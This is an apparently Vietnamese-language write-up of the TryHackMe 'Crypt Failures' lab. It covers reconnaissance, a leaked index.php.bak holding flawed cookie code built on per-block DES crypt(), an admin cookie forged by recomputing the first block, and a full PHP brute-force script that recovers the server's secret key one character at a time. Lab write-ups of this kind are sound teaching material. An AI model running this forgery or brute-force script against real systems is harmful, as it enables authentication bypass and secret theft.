


# [THM] Crytp Failures write-up

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -p- -T5 --max-retries=1 --min-rate=1000 10.201.78.163

> nmap -p22,805 -sV -sC -T4 10.201.78.163

<p align="center">
    
</p>

Các port dịch vụ đang mở bao gồm
- Port 22 chạy dịch vụ SSH
- Port 80 chạy dịch vụ HTTP

Truy cập port 80 nhận được một số thông tin như hình bên dưới


Sau đó check source thì thấy ghi chú về file .bak



Nhưng khi scan ffuf thì ta lại không nhận lại được kết quả gì 


Khi gửi request với `/index.php` thì có thể truy cập bình thường. Bất ngờ khi truy tôi truy cập thử với đường dẫn `/index.php.bak` nhận được thông tin hữu ích 



Nội dung của file `.bak`
```php
    HTTP/1.1 200 OK
    Date: Thu, 28 Aug 2025 03:01:23 GMT
    Server: Apache/2.4.59 (Debian)
    Last-Modified: Tue, 18 Jun 2024 06:23:20 GMT
    ETag: "7bb-61b241e413aab"
    Accept-Ranges: bytes
    Content-Length: 1979
    Keep-Alive: timeout=5, max=100
    Connection: Keep-Alive
    Content-Type: application/x-trash

    <?php
    include('config.php');

    function generate_cookie($user,$ENC_SECRET_KEY) {
        $SALT=generatesalt(2);
        
        $secure_cookie_string = $user.":".$_SERVER['HTTP_USER_AGENT'].":".$ENC_SECRET_KEY;

        $secure_cookie = make_secure_cookie($secure_cookie_string,$SALT);

        setcookie("secure_cookie",$secure_cookie,time()+3600,'/','',false); 
        setcookie("user","$user",time()+3600,'/','',false);
    }

    function cryptstring($what,$SALT){

    return crypt($what,$SALT);

    }


    function make_secure_cookie($text,$SALT) {

    $secure_cookie='';

    foreach ( str_split($text,8) as $el ) {
        $secure_cookie .= cryptstring($el,$SALT);
    }

    return($secure_cookie);
    }


    function generatesalt($n) {
    $randomString='';
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    for ($i = 0; $i < $n; $i++) {
        $index = rand(0, strlen($characters) - 1);
        $randomString .= $characters[$index];
    }
    return $randomString;
    }


    function verify_cookie($ENC_SECRET_KEY){


        $crypted_cookie=$_COOKIE['secure_cookie'];
        $user=$_COOKIE['user'];
        $string=$user.":".$_SERVER['HTTP_USER_AGENT'].":".$ENC_SECRET_KEY;

        $salt=substr($_COOKIE['secure_cookie'],0,2);

        if(make_secure_cookie($string,$salt)===$crypted_cookie) {
            return true;
        } else {
            return false;
        }
    }


    if ( isset($_COOKIE['secure_cookie']) && isset($_COOKIE['user']))  {

        $user=$_COOKIE['user'];

        if (verify_cookie($ENC_SECRET_KEY)) {
            
        if ($user === "admin") {
    
            echo 'congrats: ******flag here******. Now I want the key.';

                } else {
            
            $length=strlen($_SERVER['HTTP_USER_AGENT']);
            print "<p>You are logged in as " . $user . ":" . str_repeat("*", $length) . "\n";
            print "<p>SSO cookie is protected with traditional military grade en<b>crypt</b>ion\n";    
        }

    } else { 

        print "<p>You are not logged in\n";
    

    }

    }
    else {

        generate_cookie('guest',$ENC_SECRET_KEY);
        
        header('Location: /');


    }
    ?>
```

## Phân tích đoạn code 

Nếu `secure_cookie` chưa được set nó sẽ được gen ra bằng hàm `generate_cookie`. Với cấu trúc `user:UserAgent:ENC_SECRET_KEY`. Vậy là ít nhất chúng ta đã kiểm soát được tham số `User-Agent`, nhưng sẽ nói thêm về điều này sau. Hàm `generate_cookie()` trước tiên gọi `generatesalt()` để tạo một chuỗi salt 2 byte ngẫu nhiên từ một bộ ký tự chữ và số. Chuỗi salt này và chuỗi cookie sau đó được truyền đến hàm `make_secure_cookie()`.

```php
    function generate_cookie($user,$ENC_SECRET_KEY) {
        $SALT=generatesalt(2);
        
        $secure_cookie_string = $user.":".$_SERVER['HTTP_USER_AGENT'].":".$ENC_SECRET_KEY;

        $secure_cookie = make_secure_cookie($secure_cookie_string,$SALT);

        setcookie("secure_cookie",$secure_cookie,time()+3600,'/','',false); 
        setcookie("user","$user",time()+3600,'/','',false);
    }
```

Hàm `make_secure_cookie()` về cơ bản áp dụng `crypt()` trong các khối gồm 8 ký tự của chuỗi cookie được truyền bao gồm cả salt.

```php

    function cryptstring($what,$SALT){

    return crypt($what,$SALT);

    }


    function make_secure_cookie($text,$SALT) {

    $secure_cookie='';

    foreach ( str_split($text,8) as $el ) {
        $secure_cookie .= cryptstring($el,$SALT);
    }

    return($secure_cookie);
    }
```

Quá trình xác minh sẽ trích xuất salt từ hai ký tự đầu tiên của cookie được lưu trữ `(substr($_COOKIE['secure_cookie'],0,2))`. Sau đó, salt được sử dụng để tạo cookie bảo mật nhằm so sánh với cookie đã được truyền.

```php
    function verify_cookie($ENC_SECRET_KEY){

        $crypted_cookie=$_COOKIE['secure_cookie'];
        $user=$_COOKIE['user'];
        $string=$user.":".$_SERVER['HTTP_USER_AGENT'].":".$ENC_SECRET_KEY;

        $salt=substr($_COOKIE['secure_cookie'],0,2);

        if(make_secure_cookie($string,$salt)===$crypted_cookie) {
            return true;
        } else {
            return false;
        }
    }
```

Sau khi cookie hợp lệ được xác minh, người dùng sẽ được cấp quyền truy cập hoặc bị từ chối dựa trên tên người dùng. Tên người dùng được đặt bởi cookie người dùng. Nếu người dùng là `admin`, flag sẽ được hiển thị.

```php
    if ($user === "admin") {
    
            echo 'congrats: ******flag here******. Now I want the key.';

                } else {
            
            $length=strlen($_SERVER['HTTP_USER_AGENT']);
            print "<p>You are logged in as " . $user . ":" . str_repeat("*", $length) . "\n";
            print "<p>SSO cookie is protected with traditional military grade en<b>crypt</b>ion\n";    
        }
```

secure_cookie: `9vm5L9kX7%2Fzk.9vTPNJtBI..m.9v3%2F4tvic%2FFKo9v%2FCmYRFw17GI9vwYzm6.2d3fY9vL871dRAPe069vLFXKDgTGiz.9vrpRTbaE.1j.9vn7lCKDIVxWk9vpUDcBmoGaCk9v3MUVGxiAg%2Fs9vVIWtcXUIbuE9vyK3q4SzhDz.9vWltlkHurC9k9v5GZYgVWxteQ9vi3VJwAP1Sho9vjxQGTFE54Dw9vggzaPftxcv29vvCtSWAET6N.9vQWnXkdnQioY9vhVLv1UOJJ6E9vQgl50arpims9vMGHb%2FEIg2R29vVZt2b.rrLmE9vcuO19JSJPu69vXSyp1w%2FpVvw9vC1I7xI4aOGk9v3DKww38U2M69vR5xuKQcBHpY`

Với cookie trên sẽ có cấu trúc `guest:Mozilla.....:ENC_SECRET_KEY` mà server lấy 8 ký tự để băm lần lượt vậy ta cần thay đổi giá trị của `guest:Mo` thành `admin:Mo`. Với salt là 2 ký tự đầu của cookie

```bash
    └─$ php -a              
    Interactive shell

    php > echo crypt("guest:Mo", "9v");
    9vm5L9kX7/zk.
    php > echo crypt("admin:Mo", "9v");
    9vYey1IQiS882
    php > 

```

Sau khi thay cookie với giá trị `9vYey1IQiS8829vTPNJtBI..m.9v3%2F4tvic%2FFKo9v%2FCmYRFw17GI9vwYzm6.2d3fY9vL871dRAPe069vLFXKDgTGiz.9vrpRTbaE.1j.9vn7lCKDIVxWk9vpUDcBmoGaCk9v3MUVGxiAg%2Fs9vVIWtcXUIbuE9vyK3q4SzhDz.9vWltlkHurC9k9v5GZYgVWxteQ9vi3VJwAP1Sho9vjxQGTFE54Dw9vggzaPftxcv29vvCtSWAET6N.9vQWnXkdnQioY9vhVLv1UOJJ6E9vQgl50arpims9vMGHb%2FEIg2R29vVZt2b.rrLmE9vcuO19JSJPu69vXSyp1w%2FpVvw9vC1I7xI4aOGk9v3DKww38U2M69vR5xuKQcBHpY` và user thành `admin` đã lấy được flag


Sau đó để lấy được `ENC_SECRET_KEY` cần chạy đoạn script sau để thực hiện brute force

```php
    <?php

    // Target URL
    $target_url = "http://10.201.6.175/index.php";

    // Possible characters
    $charset = implode('', array_merge(
        range('a', 'z'),     // Lowercase letters
        range('A', 'Z'),     // Uppercase letters
        range('0', '9'),     // Digits
        str_split("!\"#$%&'()*+,-./:;<=>?@[\\]^_`{|}~") // Special symbols
    ));


    // Initial User-Agent
    $user_agent = str_repeat("A", 256); // Adjusted length
    $known_prefix = "guest:" . $user_agent . ":"; // Base structure
    $test_string = substr($known_prefix, -8);

    // Function to fetch secure_cookie with a specific User-Agent
    function get_secure_cookie($user_agent) {
        global $target_url;

        $context = stream_context_create([
            "http" => [
                "method" => "GET",
                "header" =>
                    "Host: 10.201.6.175\r\n" .
                    "User-Agent: $user_agent\r\n" .
                    "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8\r\n" .
                    "Accept-Language: en-US,en;q=0.5\r\n" .
                    "Accept-Encoding: gzip, deflate, br\r\n" .
                    "Connection: close\r\n" .
                    "Upgrade-Insecure-Requests: 1\r\n"
            ]
        ]);

        // Fetch response
        $response = file_get_contents($target_url, false, $context);

        // Extract "secure_cookie" from headers
        foreach ($http_response_header as $header) {
            if (stripos($header, "Set-Cookie: secure_cookie=") !== false) {
                preg_match('/secure_cookie=([^;]+)/', $header, $matches);
                
                if (!isset($matches[1])) {
                    return null;
                }

                // URL-decode the cookie value before using it
                $decoded_cookie = urldecode($matches[1]);

                // Ensure no URL-encoded characters remain
                if (preg_match('/%[0-9A-Fa-f]{2}/', $decoded_cookie)) {
                    die("❌ URL-encoded characters detected in secure_cookie!\n");
                }

                return $decoded_cookie;
            }
        }
        return null;
    }


    // Start brute-force process
    $found_text = "";
    while (true) {
        echo "\nCurrent known part: {$found_text}\n";

        // Get new secure_cookie for the current prefix
        $secure_cookie = get_secure_cookie($user_agent);
        $user_agent = substr($user_agent, 1);
        if (!$secure_cookie) {
            die("❌ Failed to retrieve secure_cookie!\n");
        }

        echo "✅ Retrieved (Decoded) secure_cookie: $secure_cookie\n";

        // Extract salt
        $salt = substr($secure_cookie, 0, 2);

        // Brute-force the next character
        $found_char = null;
        foreach (str_split($charset) as $char) {
            $test_string_temp = substr($test_string, 1) . $char;
        print($test_string_temp . "\n");
            
            $hashed_test = crypt($test_string_temp, $salt);
            if (str_contains($secure_cookie, $hashed_test)) {
                echo "✅ Found character: $char\n";
                $found_text .= $char;
                $test_string = $test_string_temp;
                echo $test_string . "\n";
                echo $hashed_test . "\n";
                break;
            }
        }
    }

    ?>
```

Đoạn code trên là một kịch bản tấn công tự động để dò tìm khóa bí mật của server, từng ký tự một.

Nó hoạt động bằng cách:

- Lợi dụng lỗ hổng: Nó biết server kiểm tra cookie theo từng "đoạn" 8 ký tự riêng lẻ.

- Cô lập mục tiêu: Nó khéo léo thay đổi độ dài User-Agent để đẩy đúng một ký tự chưa biết của khóa bí mật vào một "đoạn" 8 ký tự.

- Dò tìm và so sánh: Nó thử mọi ký tự có thể (a, b, c...) cho vị trí chưa biết đó, băm (hash) chúng, rồi so sánh với cookie mà server trả về. Nếu kết quả băm khớp, nó đã tìm ra đúng ký tự đó.

Chạy đoạn script trên và đây là kết quả nhận được


